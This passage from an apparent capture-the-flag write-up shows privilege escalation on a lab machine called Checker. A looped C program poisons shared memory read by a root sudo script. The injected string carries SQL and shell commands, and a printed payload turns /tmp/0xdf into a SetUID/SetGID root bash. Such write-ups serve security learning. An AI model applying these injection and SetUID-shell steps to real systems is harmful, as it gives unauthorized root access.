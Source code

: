 This program will seed the random number generator and get a random five digit key, just like the program data. It will then open shared memory with that key and attach. I didn’t include the error handling as I’m just hacking here.

It then writes my malicious string into shared memory, so that when it’s read, it runs the SQL query, exits, and runs my command.

I’ll upload this to Checker, compile it, and then run it in a loop, poisoning continuously the shared memory for the random number of the current timestamp:

```

reader@checker:/tmp$ nano d.c 
reader@checker:/tmp$ gcc d.c -o d
reader@checker:/tmp$ while true; do ./d ; done

```

In a second SSH terminal, I’ll run the command to check bob, which has a leaked hash.

```

reader@checker:~$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x6ADF0 as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db

```

There’s an SQL error, which is due to my injection! More interestingly, there’s now a `/tmp/0xdf` file owned by root:

```

reader@checker:~$ ls -l /tmp/0xdf 
-rw-r--r-- 1 root root 0 Feb 24 19:32 /tmp/0xdf

```

#### Shell

I’ll update my code with a new payload to make a SetUID/SetGID `bash`:

```

    snprintf(h_shm, 0x400, "Leaked hash detected at whenever > '; cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf;#");

```

On running again, it works:

```

reader@checker:~$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1396520 Feb 24 19:34 /tmp/0xdf

```
